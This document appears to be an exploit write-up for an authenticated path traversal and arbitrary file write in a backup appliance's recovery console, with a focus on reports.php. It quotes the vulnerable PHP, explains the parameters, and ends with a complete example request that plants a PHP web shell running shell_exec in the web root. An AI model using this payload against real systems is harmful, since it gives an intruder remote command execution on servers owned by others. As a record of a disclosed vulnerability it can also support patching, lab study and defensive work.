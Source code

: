 Details:

Need a valid session. Login to /recoveryconsole and get an auth string. You can open a file anywhere the webserver has access to (user is apache). 

Variables:
name: For webshells, do ../ all the way to server root (/), then go to /var/www/html/tempPDF/file_prefix
contents: file contents you wish to upload
report: extension of file
type: the action switch to get where we need to. MUST BE SET TO file

Vulnerable Code:

---------------------------------------------------|
From /var/www/html/recoveryconsole/bpl/header.php  |
---------------------------------------------------|
// Get authentication cookie.
$authentication_cookie = isset($_REQUEST['auth']) ? $_REQUEST['auth'] : "";
// The action is the operation the user is taking.
$action = isset($_REQUEST['type']) ? $_REQUEST['type'] : "list";

---------------------------------------------------|
From /var/www/html/recoveryconsole/bpl/reports.php |
---------------------------------------------------|
// variable action from header.php
...
switch($action)
case "file":
if (isset($_GET['report']) && isset($_REQUEST['contents'])) {
        $reportType = $_GET['report'];
        $contents = $_REQUEST['contents'];
}
...
$baseName = isset($_GET['name']) ? $_GET['name'] : 'report';
$reportDirectory = $BP->get_ini_value("Location Information", "Reports-Dir");
if ($reportDirectory === false) {
        // Since we are not erroring out, log in the error log.
        // Use the default value /usr/bp/logs.dir.
        global $Log;
        $message = $BP->getError() . " - Error retrieving ini field: Location Information, Report-Dir, using default (/usr/bp/re
ports.dir).";
        $Log->writeError($message, true);
        $reportDirectory = "/usr/bp/reports.dir";
}
$fileName = createReportName($baseName, $reportDirectory, $reportType);
$bSuccessful = saveReport($fileName, $contents);
if ($bSuccessful === true) {
        $xml->push("root");
        $xml->element("ReportFile", $fileName);
        $xml->pop();
} else {
        $errorString = "Error saving report file '" . $fileName . "'.";
        $BP->buildResult($xml, false, $errorString);
}
echo($xml->getXml());
break;

...

// This function returns a name of a report (the CSV file) based on the type of report and date/time.
//
function createReportName($baseName, $directory, $type)
{
        $sName = $directory . '/' . $baseName;
        $timestamp = time();
        $date = date('mdy-His', $timestamp);
        
        $sName .= $date . '.' . $type;
        
        return $sName;
}

//
// This function saves the contents of the report to the file and returns
// true if successful and false if not.
//
function saveReport($file, $contents)
{
        $bSuccessful = false;
        $fp = fopen($file, 'w+');
        if ($fp !== false) {
                fwrite($fp, $contents);
                fclose($fp);
                $bSuccessful = true;
        }
        return $bSuccessful;
}

Example Request:

https://10.10.10.89/recoveryconsole/bpl/reports.php?type=file&report=php&name=../../../../../../../../var/www/html/tempPDF/rsl&contents=<?php echo shell_exec($_GET['e']); ?>&auth=djA6MjI2ZjYyYTItMWFlNy00MDM4LTkxZTctODkxOGFmMjQ2YjYxOjE6L3Vzci9icC9sb2dzLmRpci9ndWlfcm9vdC5sb2c6MA%3D%3D

